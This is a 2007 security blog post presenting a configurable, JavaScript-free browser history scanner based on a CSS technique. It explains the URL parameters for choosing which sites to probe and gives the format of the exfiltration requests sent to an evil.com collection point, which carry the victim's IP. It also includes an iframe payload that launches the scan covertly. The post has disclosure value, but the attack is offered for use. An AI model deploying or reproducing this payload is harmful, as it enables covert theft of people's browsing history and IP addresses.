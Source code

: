 ```yaml
---
title: Noscript HScan
author: pdp
date: Wed, 28 Feb 2007 22:57:00 GMT
template: post.jade
category: fucked
---
```


After releasing my Firefox specific [history scanner](/blog/hscan-redux/), RSnake came up with [his own](http://ha.ckers.org/blog/20070228/steal-browser-history-without-javascript) bleeding edge history scanning technique which is based on Jeremiah Grossman's [implementation](http://jeremiahgrossman.blogspot.com/2006/08/i-know-where-youve-been.html) but it does not require JavaScript. This approach has its own limitations and advantages.

On the advantages side, you don't really need JavaScript to steal the victim's browser history anymore. So, everybody who is thinking that turning off JavaScript is the safe way to go, you are most definitely wrong. You should turn CSS off too. This is it. Sparten browsing is the key. On the other hand, history scanning without JavaScript is less powerful in a way that attackers are not able to perform actions as soon as a history entry is discovered.

Still, I think that RSnake's approach is quite interesting and innovative. I decided to write a generic scanner that can be configured on the fly to steal any browser history. The scanner is located [here](/files/2007/02/noscript-hscan-php.txt). Before using it you need to pass several GET or POST (it is up to you really) parameters to the script like this:

	noscript-hscan.php?u1=[url]&u2=[url]&t=[target collection point]

The scanner excepts any number of URLs. The only rule is that every URL parameters must start with **u** (lower case u). It is a good practice to number the URLs that you want to scan as u1, u2, u3, etc. The **t** parameter is for the target collection point. This is the place where the history information will be sent to. The collection point will receive requests that look like the following:

	http://evil.com/path/to/collection/point?u=[url]&t=[timestamp]&c=[ip]

The easiest way you can launch the generated scanning code is to include it inside an iframe. For example you can use something like the following:

```html
<iframe src="noscript-hscan.php?t=http%3A//evil.com/path/to/collection/point%3F&u0=http%3A//www.yahoo.com/&u1=http%3A//www.google.com/&u2=http%3A//www.myspace.com/&u3=http%3A//www.msn.com/&u4=http%3A//www.ebay.com/&"></iframe>
```

_This is it! It is simple._
